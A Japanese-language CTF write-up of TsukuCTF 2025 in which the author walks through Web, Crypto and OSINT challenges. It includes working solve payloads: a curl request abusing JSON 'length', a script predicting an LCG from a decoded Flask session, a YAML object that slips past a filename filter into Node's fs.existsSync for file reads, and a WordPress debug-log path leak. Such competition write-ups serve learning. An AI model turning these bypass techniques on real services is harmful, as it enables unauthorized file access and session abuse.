

`TPCb`としてTsukuCTF 2025に参加し、WebとCryptoと一部のOSINTを担当しました。
全体で51st、JapaneseStudentsで21stでした。

https://x.com/tsukuctf

## Web

### len_len [451 solve]

```js
  const sanitized = str.replaceAll(" ", "");
  if (sanitized.length < 10) {
    return `error: no flag for you. sanitized string is ${sanitized}, length is ${sanitized.length.toString()}`;
  }
  const array = JSON.parse(sanitized);
  if (array.length < 0) {
    // hmm...??
    return FLAG;
  }
```

入力文字列から空白をすべて除去したあと、長さが10未満ならエラーを返し、JSONパースして配列長が負数ならフラグを返す。負となるのはパース後の`length`のため、配列じゃなくオブジェクトとして渡せば直接指定することができる。

```bash
curl -X POST -d 'array={"length":-1}' http://challs.tsukuctf.org:28888
```

`TsukuCTF25{l4n_l1n_lun_l4n_l0n}`

### flash [170 solve]

Flaskのセッションcookieは改ざんするのはsecretが分かってないと難しいが、読むだけならbase64でdecodeするとできるので、sessionに含まれる`session_id`を取り出し、SEEDと合わせて疑似乱数生成器を完全再現すれば残りのラウンドの値も予測可能。なおSEEDは`/static/seed.txt`にあり、外部からアクセスが可能だった。

```python
import json
import base64
import hmac
import hashlib

s_cookie = input('session: ')
decoded_s = base64.b64decode(s_cookie).decode('utf-8','ignore').split('}')[0]+'}'
session_id = json.loads(decoded_s)["session_id"]

SEED = bytes.fromhex('b7c4c422a93fdc991075b22b79aa12bb19770b1c9b741dd44acbafd4bc6d1aabc1b9378f3b68ac345535673fcf07f089a8492dc1b05343a80b3d002f070771c6')
DIGITS_PER_ROUND = 7
TOTAL_ROUNDS = 10

def lcg_params(seed: bytes, session_id: str):
    m = 2147483693
    raw_a = hmac.new(seed, (session_id + "a").encode(), hashlib.sha256).digest()
    a = (int.from_bytes(raw_a[:8], 'big') % (m - 1)) + 1
    raw_c = hmac.new(seed, (session_id + "c").encode(), hashlib.sha256).digest()
    c = (int.from_bytes(raw_c[:8], 'big') % (m - 1)) + 1
    return m, a, c

def generate_round_digits(seed: bytes, session_id: str, round_index: int):
    LCG_M, LCG_A, LCG_C = lcg_params(seed, session_id)
    h0 = hmac.new(seed, session_id.encode(), hashlib.sha256).digest()
    state = int.from_bytes(h0, 'big') % LCG_M
    for _ in range(DIGITS_PER_ROUND * round_index):
        state = (LCG_A * state + LCG_C) % LCG_M
    digits = []
    for _ in range(DIGITS_PER_ROUND):
        state = (LCG_A * state + LCG_C) % LCG_M
        digits.append(state % 10)
    return digits

correct_sum = 0
for round_index in range(TOTAL_ROUNDS):
    digits = generate_round_digits(SEED, session_id, round_index)
    number = int(''.join(map(str, digits)))
    correct_sum += number

print(correct_sum)
```

`TsukuCTF25{Tr4d1on4l_P4th_Trav3rs4l}`

### YAMLwaf [71 solve]

```js
    if (req.body.includes('flag')) {
      return res.status(403).send('Not allowed!');
    }
    if (req.body.includes('\\') || req.body.includes('/')
      || req.body.includes('!!') || req.body.includes('<')) {
      return res.status(403).send('Hello, Hacker :)');
    }
    const data = yaml.load(req.body);
    const filePath = data.file;

    if (filePath && fs.existsSync(filePath)) {
      const content = fs.readFileSync(filePath, 'utf8');
      return res.send(content);
    }
```

`String.includes`か`yaml.load`か`fs.existsSync`の問題を疑った。前者２つには特に存在しなかったが[^yaml]、`fs.existsSync`の実装を読んでいたところ、引数の型として`string | URL | Buffer`を受け取ることが判明。

[^yaml]: yaml側の問題として、binaryタグを工夫すれば使えるっぽい。

https://github.com/nodejs/node/blob/v14.x/lib/fs.js#L258

URLオブジェクトからpathに変換する処理で、まず`isURLInstance`が`true`になる事が必要。これには`path.href`と`path.origin`の存在が必要（中身は何でも良い）。そして`path.protocol === ''file:''`が必要。その後の`getPathFromURLPosix`で`path.hostname === ''`が必要。そしたら`decodeURIComponent(pathname)`の値がパス名として返却される。

https://github.com/nodejs/node/blob/v14.x/lib/internal/url.js#L1366

ということはyamlでこのobjectを再現し、`flag`文字列の一部をURIエンコードすれば良い。

```bash
curl -X POST "http://20.2.250.108:50001" -H "Content-Type: text/plain" -d $'file:\n href: a\n protocol: "file:"\n hostname: ""\n pathname: fl%61g.txt\n origin: "a"'
```

`TsukuCTF25{YAML_1s_d33p!}`

なお、手元の最新環境では`origin`が必要なかったのでDockerfile確認したら実行環境はNode14でした;;

## Crypto

### a8tsukuctf [241 solve]

鍵長を超えた分は以前の暗号文を鍵ストリームとして再利用するというストリーム暗号。
平文と暗号文の関係を逆算し、8文字目以降の鍵ストリームを求めることで復号に成功。

```python
cipher = "ayb wpg uujmz pwom jaaaaaa aa tsukuctf, hj vynj? mml ogyt re ozbiymvrosf bfq nvjwsum mbmm ef ntq gudwy fxdzyqyc, yeh sfypf usyv nl imy kcxbyl ecxvboap, epa 'avb' wxxw unyfnpzklrq."

letters = [c for c in cipher if c.islower()]
p = ['?'] * len(letters)
for j in range(8, len(letters)):
    Cj = ord(letters[j]) - ord('a')
    Cjm8 = ord(letters[j - 8]) - ord('a')
    pj = (Cj - Cjm8) % 26
    p[j] = chr(pj + ord('a'))

plaintext = list(cipher)
li = 0
for i, c in enumerate(plaintext):
    if c.islower():
        plaintext[i] = p[li]
        li += 1

print(''.join(plaintext))
```

これを実行すると

```txt
??? ??? ??joy this problem or tsukuctf, or both? the flag is concatenate the seventh word in the first sentence, the third word in the second sentence, and 'fun' with underscores.
```

よってフラグは`TsukuCTF25{tsukuctf_is_fun}`

### PQC0 [149 solve]

まずはOpenSSLの3.5.0をインストールするところから。すべての情報が与えられているので`shared.dat`を復元してdecryptするだけ。

```python
import os
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

enc = "5f2b9c04a67523dac3e0b0d17f79aa2879f91ad60ba8d822869ece010a7f78f349ab75794ff4cb08819d79c9f44467bd"
enc_b = bytes.fromhex(enc)

os.system("openssl pkeyutl -decap -inkey priv.pem -in ciphertext.dat -secret shared.dat")

with open("shared.dat", "rb") as f:
    shared_secret = f.read()

m=AES.new(shared_secret, AES.MODE_ECB)
res=m.decrypt(enc_b)
print(unpad(res, 16).decode())
```

`TsukuCTF25{W3lc0me_t0_PQC_w0r1d!!!}`

### xortsukushift (unsolved)

```python
class xor_tsuku_shift:
    def __init__(self, seed):
        self.a = seed

    def shift(self):
        self.a ^= (self.a << 17) & 0xFFFFFFFFFFFFFFFF
        self.a ^= (self.a >> 9) & 0xFFFFFFFFFFFFFFFF
        self.a ^= (self.a << 18) & 0xFFFFFFFFFFFFFFFF
        return self.a & 0xFFFFFFFFFFFFFFFF

def janken(a, b):
    return (a-b+3) % 3
```

じゃんけんで294連勝させる問題。300回試行が可能なので、過去の生成列からseedを再現する問題かと思いひたすらz3のソルバを回したりしていたけどフラグにはたどり着かず。  
どうやら生成列に周期性があるらしく、280回で一周するっぽい[^order]。頑張れば気づけたかもなー

[^order]: http://blog.lkan.onl/posts/TsukuCTF_2025/#xortsukushift-34-solve より

## OSINT

### destroyed [204 solve]

https://t.me/etozp/19319

> ステプノコミュニティ体育館にミサイルが命中した結果。第二次世界大戦後、破壊された地域は捕らえられたナチスによって再建され、この戦争後、反ナチス主義者がそれらを再建するでしょう。

どうやら「ステプノ体育館」にミサイルが命中したニュースを発見。  
学校名はウクライナ語で「гімназію Степненської громади」、住所は「с. Степне, Запорізький р-н, Запорізька обл., вулиця Травнева, 52」

https://registry.edbo.gov.ua/school/136050/

GoogleMapで検索してみるとストリートビューはないし住所情報もないため座標が特定できず。ただ存在する可能性のある範囲は狭いため、街の中心部`47.797, 35.307`から推定誤差が`±0.002`あたりで順番に試していくとヒット。

`TsukuCTF25{47.797_35.305}`

### hidden_wpath (unsolved)

WordPressのサイトから隠されたパスを探す問題。  
wpscanをしたけど参考になる情報はなかった。

`/wp-admin/`にアクセスしていみるとエラーメッセージ

```txt
Notice: Function _load_textdomain_just_in_time was called incorrectly. Translation loading for the 404-solution domain was triggered too early. This is usually an indicator for some code in the plugin or theme running too early. Translations should be loaded at the init action or later. Please see Debugging in WordPress for more information. (This message was added in version 6.7.0.) in /var/www/html/wp-includes/functions.php on line 6121 Warning: Cannot modify header information - headers already sent by (output started at /var/www/html/wp-includes/functions.php:6121) in /var/www/html/wp-includes/pluggable.php on line 1450 Warning: Cannot modify header information - headers already sent by (output started at /var/www/html/wp-includes/functions.php:6121) in /var/www/html/wp-includes/pluggable.php on line 1453
```

どうやら`404-solution`が使われているっぽい。似たようなエラーで`wps-hide-login`が使われていることもわかった。ただこのプラグインのバージョンを確認してみても脆弱性とか見つからなかった。ここで手詰まりになりフラグには届かず。

どうやら404-solutionのデバッグ機能がオンになってて、`/wp-content/uploads/temp_abj404_solution/abj404_debug.txt`にデバッグ情報が出力されているっぽい。そこにsecret_pageのパスもある。404-solutionが使われてることはわかってたから、ソースコードみてdebug機能あるか確認して、その場所確認できてたら行けたなー。  
ただどうやら運営の非想定解答っぽい...？

https://github.com/aaron13100/404solution/blob/develop/includes/Logging.php#L347

## まとめ

OSINTメインの初心者向けCTFって聞いてたので、OSINT問題が案外少なく逆にほかカテゴリの問題が難しくてびっくりした。というか優しい問題と難しい問題の難易度差ありすぎ～  
pwnの問題は全てkernelのものでマニュアルを見ても手も足も出なかったのでまずは普通のユーザーランドのpwnからっぽいです,,,  
ただweb問題は完答できて満足！

## おまけ

今回はお昼の12時から24時間のコンテストでしたが、ちょうど始まったときはご飯を食べに行ってました[^gohan]。美味しかったです。

[^gohan]: こんだけ写真を上げていたらすぐにどのお店か分かっちゃいそうですね。

<blockquote class="twitter-tweet"><p lang="ja" dir="ltr">いたりあん <a href="https://t.co/j31hIrsZSH">pic.twitter.com/j31hIrsZSH</a></p>&mdash; kasi (@kq5y__) <a href="https://twitter.com/kq5y__/status/1918526107655237963?ref_src=twsrc%5Etfw">May 3, 2025</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>
